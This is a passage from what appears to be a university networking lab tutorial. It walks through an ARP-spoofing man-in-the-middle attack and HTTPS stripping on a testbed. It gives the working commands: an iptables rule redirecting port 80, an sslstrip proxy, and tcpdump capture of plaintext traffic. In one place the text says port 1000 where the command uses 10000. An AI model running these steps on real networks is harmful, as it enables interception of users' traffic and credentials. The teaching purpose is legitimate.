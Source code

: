 to start the ARP spoofing. Re-run

```
arp -n -a -i eth1
```

on the client, and you should now see an entry for the router's IP address (192.168.0.1) but with the attacker's MAC address. For example:

```
? (192.168.0.99) at 02:ec:23:e9:fe:46 [ether] on eth1
? (192.168.0.1) at 02:ec:23:e9:fe:46 [ether] on eth1
```

Verify that the man-in-the-middle attack works. On the attacker node, run

```
sudo tcpdump -i eth1 tcp
```

and on the router node, also run

```
sudo tcpdump -i eth1 tcp
```

Finally, in the Firefox running in NoVNC, reload the web page at 

http://witestlab.poly.edu

Verify that the page loads (it should still be over HTTPS). You should see traffic in the `tcpdump` that runs on the attacker, but not on the `tcpdump` that runs on the router. Once you've verified this, you can stop both `tcpdump` instances.

### Execute the HTTPS stripping attack

Finally, we're ready to execute the HTTPS stripping part of the attack.

On the attacker node, run the following command:

<pre>
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
</pre>

This will redirect traffic from port 80 (the default web port for HTTP traffic) to port 1000, which is where the proxy will listen.

Then, on the attacker, run

```
screen sslstrip -l 10000
```

to start the SSL stripping proxy.

#### Visit a site for the first time

On the attacker node, run
<pre>
sudo tcpdump -s0 -i eth1 -A port 80 | tee non-encrypted.pcap
</pre>
to display the traffic on port 80. This is non-encrypted communication between the client and the site that the attacker can see. The output is saved to non-encrypted.pcap.
